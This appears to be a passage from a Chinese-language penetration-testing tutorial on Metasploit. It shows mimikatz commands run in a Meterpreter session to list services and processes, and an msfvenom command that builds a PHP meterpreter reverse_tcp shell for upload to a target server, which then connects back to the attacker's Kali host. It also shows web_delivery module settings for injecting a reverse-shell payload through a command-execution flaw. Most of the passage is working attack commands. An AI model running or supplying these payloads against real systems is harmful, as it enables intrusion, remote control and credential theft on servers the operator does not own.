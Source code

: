 <img src="https://img-blog.csdnimg.cn/20200725184547416.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1l1X2NzZG5zdG9yeQ==,size_16,color_FFFFFF,t_70" alt=""/><br/>
上面的这些都和系统的账号有关系<br/>
mimikatz_command -f 无法获取帮助，却能从报错信息中获取使用方法

<img src="https://img-blog.csdnimg.cn/20200725191536792.png" alt=""/>

<img src="https://img-blog.csdnimg.cn/20200725191713942.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1l1X2NzZG5zdG9yeQ==,size_16,color_FFFFFF,t_70" alt=""/>

查看系统运行服务

```
mimikatz_command -f service::list

```

查看系统进程

```
 mimikatz_command -f process::list

```

可以通过报错获取更多命令提示<br/>
<img src="https://img-blog.csdnimg.cn/20200725192425244.png" alt=""/>

#### <a id="phppayload_643"/>生成php类型payload

msf不仅仅能生成可执行的exe payload，同样也可以生成其他类型的payload,例如，php

```
 msfvenom -p php/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=3333 -f raw -o a.php 
 //生成phpshell,反弹shell到kali主机上

```

利用的主要方向是文件上传，上传到目标服务器上php文件然后访问php文件，解析后直接回连我们的kali主机。

#### <a id="Web_Delivery_651"/>Web Delivery

需要存在一个命令执行的漏洞，然后生成的payload填入命令执行的漏洞中，直接实现拿到www的权限。

首先生成payload

```
use exploit/multi/script/web_delivery 

```

show targets<br/>
<img src="https://img-blog.csdnimg.cn/20200725225427931.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1l1X2NzZG5zdG9yeQ==,size_16,color_FFFFFF,t_70" alt=""/>

```
set target 1
set payload  php/meterpreter/reverse_tcp 
set lhost 192.168.1.8
run

```
